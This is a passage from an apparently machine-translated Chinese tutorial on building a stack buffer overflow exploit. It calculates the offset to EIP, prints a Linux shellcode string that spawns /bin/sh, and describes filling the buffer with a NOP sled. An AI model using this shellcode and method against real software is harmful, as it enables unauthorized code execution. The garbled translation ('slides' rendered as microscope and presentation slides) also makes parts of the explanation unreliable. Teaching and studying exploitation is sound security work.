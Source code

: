 目前这项工作很简单。现在，我们可以通过稍微修改脚本来计算估计值。

![](img/fdc1a305ac328c38cc8abc8c4b885f38.png)

412

412 是 eip 之前容量还是基本公平的一个虚拟边界？以下位将溢出到 eip 中。即 412 + 4 ('d' 'a' 'a' 'e') = 416。

我过去常常从网上找到一个合适的外壳代码 estimate 53。

```
"\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"
```

![](img/a9ccd67dc9c51ddc2333d104852b5fc4.png)

容量(412)-外壳代码(53)

我们将把 359 张 NOP 载玻片放入堆栈。在计算机安全学中，NOP 滑动可以是 NOP(无操作)指令的排列，暗示着将 CPU 的指令执行流“滑动”到它的最后&渴望的目标。我们将 NOP 幻灯片放在外壳代码之前来填充缓冲区。
